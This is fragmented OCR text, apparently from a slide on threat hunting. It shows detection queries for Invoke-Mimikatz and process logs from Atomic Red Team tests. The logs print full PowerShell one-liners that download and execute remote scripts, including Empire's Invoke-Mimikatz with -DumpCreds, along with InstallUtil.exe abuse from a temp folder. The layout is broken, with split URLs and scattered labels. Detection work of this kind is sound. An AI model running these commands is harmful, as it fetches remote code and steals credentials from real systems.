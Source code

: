 Invoke-Mimikatz -DumpCreds"

network process network

explorer.exe

powershell.exe

raw.githubusercontent.com

"C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe" /?

InstallUtil.exe C:\Users\NEWTSC~1\AppData\Local\Temp\ a3541d3f-a4db-c8b0-dab7-c268095df70e.chm

InstallUtil.exe

10.10.10.10

claves revelare
What loaded the PowerShell module Invoke-Mimikatz?
sequence [process where subtype.create] by unique_pid [process where subtype.create and command_line == "*Invoke-Mimikatz*"] by unique_ppid
1 result found

claves revelare
What loaded the PowerShell module Invoke-Mimikatz?

parent_process_name command_line

cmd.exe

powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/ Chain_Reactions/chain_reaction_DragonsTail.ps1')

powershell.exe

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/ Empire/dev/data/module_source/credentials/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

lolbas revello

event_type parent_process_name process_name command_line

destination

process explorer.exe

powershell.exe "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

networkAtomic Testing
process powershell.exe

powershell.exe

go.microsoft.com

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

"IEX (New-Object Net.WebClient).DownloadString(

powershell.exe 'https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/ module_source/credentials/Invoke-Mimikatz.ps1');
